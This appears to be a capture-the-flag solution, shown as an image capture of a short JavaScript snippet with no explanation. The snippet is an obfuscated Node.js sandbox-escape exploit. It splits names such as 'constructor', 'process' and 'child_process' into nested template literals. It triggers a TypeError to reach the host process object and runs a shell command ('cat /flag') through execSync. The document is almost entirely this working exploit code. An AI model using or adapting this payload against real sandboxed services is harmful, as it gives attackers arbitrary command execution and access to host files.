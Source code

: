 ```js
(function (){
    TypeError[`${`${`prototyp`}e`}`][`${`${`get_proces`}s`}`] = f=>f[`${`${`constructo`}r`}`](`${`${`return this.proces`}s`}`)();
    try{
        Object.preventExtensions(Buffer.from(``)).a = 1;
    }catch(e){
        return e[`${`${`get_proces`}s`}`](()=>{}).mainModule[`${`${`requir`}e`}`](`${`${`child_proces`}s`}`)[`${`${`exe`}cSync`}`](`cat /flag`).toString();
    }
})()
```

![17-3.png](17-3.png)

